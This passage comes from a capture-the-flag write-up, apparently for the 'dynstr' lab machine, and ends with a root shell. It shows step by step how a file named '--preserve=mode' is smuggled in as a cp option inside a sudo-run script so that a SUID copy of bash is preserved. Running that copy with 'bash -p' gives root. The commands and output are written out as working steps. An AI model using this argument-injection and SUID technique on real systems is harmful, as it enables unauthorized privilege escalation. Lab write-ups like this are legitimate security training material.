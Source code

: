 This could be exploited as we could also abuse that during `cp` execution, copying a previously SUID configured file, allowing us to escalate privileges.

This was achieved by running the steps below:

- Copied `/bin/bash` to a working temp directory and changed its permissions, setting its SUID bit and creating the `.version` file.

```bash
bindmgr@dynstr:/tmp$ cd $(mktemp -d)
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ cp /bin/bash .
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ chmod u+s bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo 1 > .version
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ ls -la
total 1168
drwx------  2 bindmgr bindmgr    4096 Aug 16 19:22 .
drwxrwxrwt 13 root    root       4096 Aug 16 19:22 ..
-rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:22 bash
-rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:22 .version
```

- Created a file called `--preserve=mode`, so its name could be expanded as a parameter for `cp` during script execution, copying `bash` as root but keeping SUID set. We can confirm that as well using `echo`, also below

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo "" > ./--preserve=mode
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ echo *
bash --preserve=mode
```

- Ran the script using `sudo`

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.7i6oryDsae.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```

- Executed the `bash` binary with `-p` parameter, as stated in [bash \| GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid), giving me an interactive shell as `root` and able to read contents of `/root/root.txt` file :smiley:

```bash
bindmgr@dynstr:/tmp/tmp.7i6oryDsae$ /etc/bind/named.bindmgr/bash -p
bash-5.0# ls -la
total 1172
drwx------  2 bindmgr bindmgr    4096 Aug 16 19:10  .
drwxrwxrwt 13 root    root       4096 Aug 16 19:09  ..
-rwsr-xr-x  1 bindmgr bindmgr 1183448 Aug 16 19:10  bash
-rw-rw-r--  1 bindmgr bindmgr       1 Aug 16 19:10 '--preserve=mode'
-rw-rw-r--  1 bindmgr bindmgr       2 Aug 16 19:10  .version
bash-5.0# cd /root
bash-5.0# cat root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you at the next post :smile:
